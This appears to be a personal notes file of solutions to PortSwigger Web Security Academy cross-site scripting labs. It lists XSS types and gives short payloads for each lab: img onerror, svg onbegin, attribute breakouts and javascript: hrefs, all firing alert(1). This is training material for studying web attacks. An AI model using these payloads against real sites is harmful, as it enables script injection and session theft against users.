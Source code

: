 # XSS is the most known client side vulnerbility
## Types OF XSS
- Reflected XSS
- DOM Based XSS
- Stored XSS 
- Blind XSS

## There are client side frameworks can trigger xss in different methods
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Reflected XSS into HTML context with nothing encoded
```bash
https://0a88007603bad0a4808b0d0000230035.web-security-academy.net/?search=%3Cimg%20src=c%20onerror=%22alert(1)%22%20/.
```

### Stored XSS into HTML context with nothing encoded
```bash
in comment
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

### DOM XSS in document.write sink using source
```bash
Website writes the userinput inside an image tag so
'ls" onload="alert(1)"'
this is enough
```

### DOM XSS in innerHTML sink using source location.search
```bash
input was reflecting inside a span tag
lola"><img%20src=x%20onerror="alert(1)"/>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
```bash
There was a controlable url parameter return path when i click back button 
it redirected me to that path
?redirect=/shop
i changed it to ?redirect=javascript:alert(1);
and back button <a href="javascript:alert(1)">
```

### Reflected XSS into attribute with angle brackets HTML-encoded
```bash
Reflected Inside Input Value Tag
"onmouseover="alert(1)
Solved
```
